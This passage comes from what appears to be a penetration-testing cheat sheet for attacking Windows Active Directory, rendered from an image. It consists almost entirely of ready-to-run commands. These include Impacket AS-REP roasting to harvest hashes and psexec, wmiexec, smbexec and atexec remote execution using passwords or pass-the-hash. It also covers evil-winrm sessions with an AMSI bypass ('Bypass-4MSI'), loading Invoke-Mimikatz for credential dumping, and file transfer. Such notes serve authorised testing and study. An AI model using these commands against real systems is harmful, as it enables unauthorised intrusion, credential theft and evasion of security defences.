 ```bash
GetNPUsers.py test.local/ -dc-ip <IP> -usersfile usernames.txt -format hashcat -outputfile hashes.txt #Asreproasting, need to provide usernames list

##RCE
psexec.py test.local/john:password123@10.10.10.1
psexec.py -hashes lmhash:nthash test.local/john@10.10.10.1

wmiexec.py test.local/john:password123@10.10.10.1
wmiexec.py -hashes lmhash:nthash test.local/john@10.10.10.1

smbexec.py test.local/john:password123@10.10.10.1
smbexec.py -hashes lmhash:nthash test.local/john@10.10.10.1

atexec.py test.local/john:password123@10.10.10.1 <command>
atexec.py -hashes lmhash:nthash test.local/john@10.10.10.1 <command>

```

## Evil-Winrm

```bash
##winrm service discovery
nmap -p5985,5986 <IP>
5985 - plaintext protocol
5986 - encrypted

##Login with password
evil-winrm -i <IP> -u user -p pass
evil-winrm -i <IP> -u user -p pass -S #if 5986 port is open

##Login with Hash
evil-winrm -i <IP> -u user -H ntlmhash

##Login with key
evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S #-c for public key and -k for private key

##Logs
evil-winrm -i <IP> -u user -p pass -l

##File upload and download
upload <file>
download <file> <filepath-kali> #not required to provide path all time

##Loading files direclty from Kali location
evil-winrm -i <IP> -u user -p pass -s /opt/privsc/powershell #Location can be different
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz

##evil-winrm commands
menu # to view commands
#There are several commands to run
#This is an example for running a binary
evil-winrm -i <IP> -u user -p pass -e /opt/privsc
Bypass-4MSI
menu
Invoke-Binary /opt/privsc/winPEASx64.exe
```
